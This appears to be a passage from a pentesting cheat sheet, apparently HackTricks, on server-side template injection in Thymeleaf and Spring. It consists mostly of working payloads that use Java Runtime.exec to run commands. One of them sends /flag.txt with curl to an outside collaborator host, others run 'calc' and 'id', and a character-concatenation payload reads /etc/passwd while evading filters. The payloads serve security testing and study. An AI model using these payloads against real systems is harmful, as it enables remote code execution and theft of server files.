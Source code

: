 **Example of Vulnerability in Thymeleaf**

Consider the following code snippet, which could be susceptible to exploitation:



```
<a th:href="@{__${path}__}" th:title="${title}">
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('curl -d @/flag.txt burpcollab.com')}" th:title='pepito'>
```

This indicates that if the template engine processes these inputs improperly, it might lead to remote code execution accessing URLs like:



```
http://localhost:8082/(7*7)
http://localhost:8082/(${T(java.lang.Runtime).getRuntime().exec('calc')})
```

**More information**

- [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
 

[EL - Expression Language](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/el-expression-language)

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-framework-java)

Spring Framework (Java)



```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

**Bypass filters**

Multiple variable expressions can be used, if `${...}` doesn't work try `#{...}`, `*{...}`, `@{...}` or `~{...}`.

- Read `/etc/passwd`
 



```
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
